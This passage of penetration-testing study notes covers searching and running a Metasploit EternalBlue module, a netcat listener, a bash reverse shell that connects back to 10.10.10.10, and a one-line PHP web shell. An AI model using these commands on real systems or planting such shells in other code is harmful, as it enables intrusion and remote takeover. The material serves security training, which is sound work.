 Tip: Explore online databases such as Exploit DB, Rapid7, or Vulnerability Lab.

- **Metasploit Framework**
Launch Metasploit:
```bash
msfconsole
```
Example: Searching for an EternalBlue exploit:
```bash
search exploit eternalblue
```
Module Configuration:
Use a module (e.g., exploit/windows/smb/ms17_010_psexec), set options:
```bash
use exploit/windows/smb/ms17_010_psexec
set RHOSTS <target_ip>
set LHOST <your_IP_or_interface>
check
exploit
```
Look for errors in the configuration:
```bash
check
```
---

## 7. Types of Shells

### Reverse Shell
- **Concept:**  
  The target machine connects back to your listener.

- **Listener Setup (Netcat):**
  ```bash
  nc -lvnp 1234
  ```
Example Bash Reverse Shell Command:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

-**Bind Shell**

Concept: The target machine binds a shell to a port; you connect to it.
Example: Commands in Bash, Python, or PowerShell (refer to Payload All The Things for more).

-**Web Shell**

Concept: A script (e.g., PHP) on the webserver that accepts commands via HTTP.

Example PHP Web Shell:
```php
<?php system($_REQUEST["cmd"]); ?>
```
Usage: Access via a browser (e.g., http://target/shell.php?cmd=id).
